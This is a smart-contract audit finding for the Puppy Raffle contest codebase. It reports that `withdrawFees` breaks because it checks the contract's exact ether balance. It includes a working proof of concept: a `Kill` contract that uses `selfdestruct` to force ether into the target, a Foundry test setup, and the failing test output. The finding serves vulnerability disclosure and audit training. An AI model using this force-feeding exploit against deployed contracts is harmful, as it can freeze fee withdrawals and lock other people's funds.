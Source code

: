 ### Relevant GitHub Links

https://github.com/Cyfrin/2023-10-Puppy-Raffle/blob/07399f4d02520a2abf6f462c024842e495ca82e4/src/PuppyRaffle.sol#L157-L163

## Summary

An attacker can slightly change the eth balance of the contract to break the `withdrawFees` function.

## Vulnerability Details

The withdraw function contains the following check:

```
require(address(this).balance == uint256(totalFees), "PuppyRaffle: There are currently players active!");
```

Using `address(this).balance` in this way invites attackers to modify said balance in order to make this check fail. This can be easily done as follows:

Add this contract above `PuppyRaffleTest`:

```
contract Kill {
    constructor  (address target) payable {
        address payable _target = payable(target);
        selfdestruct(_target);
    }
}
```

Modify `setUp` as follows:

```
    function setUp() public {
        puppyRaffle = new PuppyRaffle(
            entranceFee,
            feeAddress,
            duration
        );
        address mAlice = makeAddr("mAlice");
        vm.deal(mAlice, 1 ether);
        vm.startPrank(mAlice);
        Kill kill = new Kill{value: 0.01 ether}(address(puppyRaffle));
        vm.stopPrank();
    }
```

Now run `testWithdrawFees()` - ` forge test --mt testWithdrawFees` to get:

```
Running 1 test for test/PuppyRaffleTest.t.sol:PuppyRaffleTest
[FAIL. Reason: PuppyRaffle: There are currently players active!] testWithdrawFees() (gas: 361718)
Test result: FAILED. 0 passed; 1 failed; 0 skipped; finished in 3.40ms
```
